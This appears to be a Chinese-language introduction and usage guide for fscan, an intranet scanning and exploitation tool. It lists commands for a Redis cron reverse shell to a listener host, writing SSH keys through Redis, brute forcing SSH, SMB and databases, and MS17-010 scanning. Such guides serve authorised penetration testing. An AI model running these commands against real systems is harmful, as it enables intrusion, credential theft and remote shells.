 网络安全 fscan
<a name="RKUeS"></a>
## 简介
fscan 是一个内网综合扫描工具，方便一键自动化、全方位漏洞扫描。<br />它支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。<br />源码链接：[https://github.com/shadow1ng/fscan](https://github.com/shadow1ng/fscan)
<a name="QXAEc"></a>
## 主要功能

1. 信息搜集:
- 存活探测(icmp)
- 端口扫描
2. 爆破功能:
- 各类服务爆破(ssh、smb等)
- 数据库密码爆破(mysql、mssql、redis、psql等)
3. 系统信息、漏洞扫描:
- 获取目标网卡信息
- 高危漏洞扫描(ms17010等)
4. Web探测功能:
- webtitle探测
- web指纹识别(常见cms、oa框架等)
- web漏洞扫描(weblogic、st2等,支持xray的poc)
5. 漏洞利用:
- redis写公钥或写计划任务
- ssh命令执行
6. 其他功能:
- 文件保存
<a name="JrVB2"></a>
## usege
<a name="YqbWC"></a>
### 简单用法
```bash
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```
<a name="hoom5"></a>
### 其他用法
```bash
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
```
<a name="MREYm"></a>
### 编译命令
```bash
go build -ldflags="-s -w " -trimpath
```
<a name="PzI7A"></a>
### 完整参数
```bash
 -Num int
      poc rate (default 20)
-c string
      exec command (ssh)
-cookie string
      set poc cookie
-debug
      debug mode will print more error info
-domain string
      smb domain
-h string
      IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
-hf string
      host file, -hs ip.txt
-m string
      Select scan type ,as: -m ssh (default "all")
-no
      not to save output log
-nopoc
      not to scan web vul
-np
      not to ping
-o string
      Outputfile (default "result.txt")
-p string
      Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9200,11211,270179098,9448,8888,82,8858,1081,8879,21502,9097,8088,8090,8200,91,1080,889,8834,8011,9986,9043,9988,7080,10000,9089,8028,9999,8001,89,8086,8244,9000,2008,8080,7000,8030,8983,8096,8288,18080,8020,8848,808,8099,6868,18088,10004,8443,8042,7008,8161,7001,1082,8095,8087,8880,9096,7074,8044,8048,9087,10008,2020,8003,8069,20000,7688,1010,8092,8484,6648,9100,21501,8009,8360,9060,85,99,8000,9085,9998,8172,8899,9084,9010,9082,10010,7005,12018,87,7004,18004,8098,18098,8002,3505,8018,3000,9094,83,8108,1118,8016,20720,90,8046,9443,8091,7002,8868,8010,18082,8222,7088,8448,18090,3008,12443,9001,9093,7003,8101,14000,7687,8094,9002,8082,9081,8300,9086,8081,8089,8006,443,7007,7777,1888,9090,9095,81,1000,18002,8800,84,9088,7071,7070,8038,9091,8258,9008,9083,16080,88,8085,801,5555,7680,800,8180,9800,10002,18000,18008,98,28018,86,9092,8881,8100,8012,8084,8989,6080,7078,18001,8093,8053,8070,8280,880,92,9099,8181,9981,8060,8004,8083,10001,8097,21000,80,7200,888,7890,3128,8838,8008,8118,9080,2100,7180,9200")
-ping
      using ping replace icmp
-pocname string
      use the pocs these contain pocname, -pocname weblogic
-proxy string
      set poc proxy, -proxy http://127.0.0.1:8080
-pwd string
      password
-pwdf string
      password file
-rf string
      redis file to write sshkey file (as: -rf id_rsa.pub)
-rs string
      redis shell to write cron file (as: -rs 192.168.1.1:6666)
-t int
      Thread nums (default 600)
-time int
      Set timeout (default 3)
-u string
      url
-uf string
      urlfile
-user string
      username
-userf string
      username file
-wt int
      Set web timeout (default 5)
```
<a name="yBzqn"></a>
## 运行截图
<a name="ni5S6"></a>
### `fscan.exe -h 192.168.x.x`  (全功能、ms17010、读取网卡信息)
![2021-05-05-22-27-34-073413.png](https://cdn.nlark.com/yuque/0/2021/png/396745/1620224971525-de5da69b-5357-4c42-967b-382396dea454.png#averageHue=%23393939&clientId=uc0708d79-07ed-4&from=ui&id=uf383309c&originHeight=571&originWidth=1080&originalType=binary&ratio=1&rotation=0&showTitle=false&size=389637&status=done&style=none&taskId=ua5968be2-55df-4880-8e7f-9cd13b04ade&title=)
<a name="bN8V5"></a>
### `fscan.exe -h 192.168.x.x -rf id_rsa.pub` (redis 写公钥)
![2021-05-05-22-27-35-074239.png](https://cdn.nlark.com/yuque/0/2021/png/396745/1620224982883-1d59fa2b-468e-4e2a-b1ab-7cb91224c051.png#averageHue=%23363636&clientId=uc0708d79-07ed-4&from=ui&id=uc89348d1&originHeight=585&originWidth=1080&originalType=binary&ratio=1&rotation=0&showTitle=false&size=406708&status=done&style=none&taskId=u10a72c52-05d9-4ca1-b8b5-d39e54a799e&title=)
<a name="wGgQb"></a>
### `fscan.exe -h 192.168.x.x -c "whoami;id"` (ssh 命令)
![2021-05-05-22-27-35-799717.png](https://cdn.nlark.com/yuque/0/2021/png/396745/1620224995377-6b6c15bd-f269-4a60-8daa-3ecaa8d0d1e4.png#averageHue=%23333333&clientId=uc0708d79-07ed-4&from=ui&id=u7d504c02&originHeight=642&originWidth=1080&originalType=binary&ratio=1&rotation=0&showTitle=false&size=422892&status=done&style=none&taskId=ubeb4a6df-66bb-444f-9376-829bc086860&title=)
<a name="M8LWB"></a>
### `fscan.exe -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080` 一键支持xray的poc
![2021-05-05-22-27-36-511138.png](https://cdn.nlark.com/yuque/0/2021/png/396745/1620225007463-45f00ec4-88ea-43f6-bebb-8b4ea7b17c62.png#averageHue=%23908f8e&clientId=uc0708d79-07ed-4&from=ui&id=ub2abd276&originHeight=463&originWidth=1080&originalType=binary&ratio=1&rotation=0&showTitle=false&size=350138&status=done&style=none&taskId=u50b17cc7-358b-4d57-a3c9-15fa64131b1&title=)<br />这个项目的开发者参考的开源项目有这些：

- [https://github.com/Adminisme/ServerScan](https://github.com/Adminisme/ServerScan)
- [https://github.com/netxfly/x-crack](https://github.com/netxfly/x-crack)
- [https://github.com/hack2fun/Gscan](https://github.com/hack2fun/Gscan)
- [https://github.com/k8gege/LadonGo](https://github.com/k8gege/LadonGo)
- [https://github.com/jjf012/gopoc](https://github.com/jjf012/gopoc)
